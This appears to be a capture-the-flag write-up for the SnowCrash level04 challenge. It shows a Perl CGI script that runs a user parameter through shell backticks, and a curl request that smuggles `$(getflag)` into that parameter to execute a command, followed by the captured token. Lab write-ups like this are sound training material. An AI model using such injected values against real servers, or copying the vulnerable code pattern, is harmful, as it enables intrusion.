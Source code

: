 ## Level 04

`ls` -> we find a level04.pl (perl script)

Here's the content:

``` perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

### Curl request

It seems we can send curl requests to the server and it will execute the `x` subroutine as this:

`curl -s -X POST -d 'x="salut mec comment ça va"' localhost:4747`

It will shoot us with;

```bash
level04@SnowCrash:~$ curl -s -X POST -d 'x="salut mec comment ça va"' localhost:4747
salut mec comment ça va
```

So we can use echo to execute commands inside the server such as:
```bash
level04@SnowCrash:~$ curl -s -X POST -d 'x="$(getflag)"' localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Token

ne2searoevaevoem4ov4ar8ap